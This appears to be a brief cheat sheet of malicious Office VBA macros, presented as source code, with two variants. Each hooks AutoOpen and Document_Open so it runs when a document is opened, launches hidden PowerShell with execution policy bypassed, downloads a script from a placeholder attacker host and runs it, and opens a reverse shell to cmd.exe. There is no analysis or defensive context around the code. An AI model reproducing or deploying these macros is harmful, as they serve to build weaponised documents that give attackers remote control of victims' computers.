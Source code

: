 ## Normal Powercat

Sub AutoOpen()
  powercat
End Sub

Sub Document_Open()
  powercat
End Sub 

Sub powercat()
  Dim url as String
  Dim psScript as String
  url = http://$ip:$port/powercat.ps1
  psScript = "IEX (New-Object System.Net WebClient).DownloadString('" & url & "'); powercat -c $ip $port -e cmd.exe"

  Shell "powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -c """ & psScript & """", vsHide
End Sub



## Reverse Shell Payload Base64 powercat

Sub AutoOpen()
  powercat
End Sub

Sub Document_Open()
  powercat
End Sub 

Sub powercat()
  Dim str as String
  str = "powershell -c ""$code=(New-Object System.Net.Webclient).DownloadString('http://$ip:$port/reverse_shell.txt'); iex 'powershell -WindowStyle Hidden -E $code'"""
  CreateObject("Wscript.Shell").Run str, 0
  
End Sub
